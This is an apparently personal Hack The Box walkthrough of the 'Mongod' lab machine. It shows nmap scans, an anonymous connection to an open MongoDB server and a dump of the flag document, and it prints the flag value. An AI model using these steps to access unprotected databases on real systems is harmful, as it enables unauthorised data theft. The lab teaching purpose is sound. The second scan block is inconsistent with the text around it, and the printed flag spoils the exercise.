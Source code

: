 ```yaml
---
title: "Hack The Box - Mongod"
date: 2022-10-16T13:05:37+05:30
draft: false
description: " mongod from HackTheBox is an retired machine which is vulnerable to security Misconfiguration, which can be exploited with help of default credential "
hideToc: false
tocPosition: outer
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags:
- MongoDB
series:
- Starting Point Tire 0
categories:
- Very Easy
- HackTheBox
- Linux
libraries:

image: /images/hackthebox/mongod/1.png 
---
```


Hi Hackers Welcome Back, Today we are going to look at Hack The Box Mongod Machine.

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Room Name</th>
    <th>Mongod</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Very Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the port 27017 ware open. which is mongodb service, connected as a  anonymous user.

## Recon

Lets start with default script scan 

```bash
atom@atom-VirtualBox:~/htb/mongod$ nmap -sC -sV 10.129.147.150
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-12 22:18 IST
Nmap scan report for 10.129.147.150
Host is up (0.23s latency).
Not shown: 988 closed ports
PORT      STATE    SERVICE       VERSION
13/tcp    filtered daytime
22/tcp    open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
311/tcp   filtered asip-webadmin
513/tcp   filtered login
1094/tcp  filtered rootd
1594/tcp  filtered sixtrak
2909/tcp  filtered funk-dialout
3871/tcp  filtered avocent-adsap
4129/tcp  filtered nuauth
7106/tcp  filtered unknown
8291/tcp  filtered unknown
27356/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.71 seconds
```

Expect 1 port all other ports are filtered by firewall, default scri[t scan will perform scan on top 1000 ports, for better enumeration lets scan entire port 

```bash
atom@atom-VirtualBox:~/htb/mongod$ nmap -sC -sV 10.129.147.150
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-12 22:18 IST
Nmap scan report for 10.129.147.150
Host is up (0.23s latency).
Not shown: 988 closed ports
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open     mongodb       MongoDB 3.6.8 
```

Databases are a collection of organized information that can be easily accessed, managed and updated. In most environments, database systems are very important because they communicate information related to your sales transactions, product inventory, customer profiles and marketing activities. There are different types of databases and one among them is MongoDB, which is a document-oriented NoSQL database. It is crucial to be aware of how the data is stored in different types of databases and how we can connect to these remote database servers and retrieve the desired data. In a document-oriented NoSQL database, the data is organized into a hierarchy of the following levels:

1. databases
2. collections
3. documents

Databases make up the top level of data organization in a MongoDB instance. Databases are organized into collections which contain documents. Documents contain literal data such as strings, numbers, dates, etc. in a JSON-like format. It often happens that the database server is misconfigured to permit anonymous login which can be exploited by an attacker to get access to sensitive information stored on the database. Mongod is a Linux box that features a MongoDB server running on it which allows anonymous login without a username or

password. We can remotely connect to this MongoDB server using the mongo command line utility and enumerate the database in it to retrieve the flag.

**MongoDB**

MongoDB is a document-oriented NoSQL database. Instead of using tables and rows like in traditional relational databases, MongoDB makes use of collections and documents. Each database contains collections which in turn further contain documents. Each document consists of key-value pairs which are the basic unit of data in a MongoDB database. A single collection can contain multiple documents and they are schema-less meaning that the size and content of each document can be different from each another.

**Connecting to MongoDB**

In order to connect to the remote MongoDB server running on the target box, we will need to install the mongodb utility, which can be done on Debian-based Linux distributions (like Parrot, Kali and Ubuntu) by downloading the following tar archive file.

```

curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz
``` 
```
tar xvf mongodb-linux-x86_64-3.4.7.tgz
```

``` 
cd mongodb-linux-x86_64-3.4.7/bin

```
```
./mongo mongodb://{target_IP}:27017
```

```bash
atom@atom-VirtualBox:~/tools/mongodb-linux-x86_64-3.4.7/bin$ ./mongo mongodb://10.129.151.153:27017
MongoDB shell version v3.4.7
connecting to: mongodb://10.129.151.153:27017
MongoDB server version: 3.6.8
WARNING: shell and server versions do not match
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
	http://docs.mongodb.org/
Questions? Try the support group
	http://groups.google.com/group/mongodb-user
Server has startup warnings: 
2022-10-16T07:56:17.749+0000 I STORAGE  [initandlisten] 
2022-10-16T07:56:17.750+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
2022-10-16T07:56:17.750+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
2022-10-16T07:56:21.200+0000 I CONTROL  [initandlisten] 
2022-10-16T07:56:21.200+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2022-10-16T07:56:21.200+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2022-10-16T07:56:21.200+0000 I CONTROL  [initandlisten] 
>
```

We have successfully connected to the remote MongoDB instance as an anonymous user. We can list the databases present on the MongoDB server using the following command.

```bash
> show dbs;
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
>
```

We can see that there exists a single collection named flag . We can dump the contents of the documents present in the flag collection by using the db.collection.find() command. Let's replace the collection name flag in the command and also use pretty() in order to receive the output in a beautified format.

```jsx
test> use sensitive_information
switched to db sensitive_information
sensitive_information> db.flag.find().pretty() 
[
  {
    _id: ObjectId("630e3dbcb82540ebbd1748c5"),
    flag: '1b6e6fb359e7c40241b6d431427ba6ea'
  }
]
sensitive_information>
```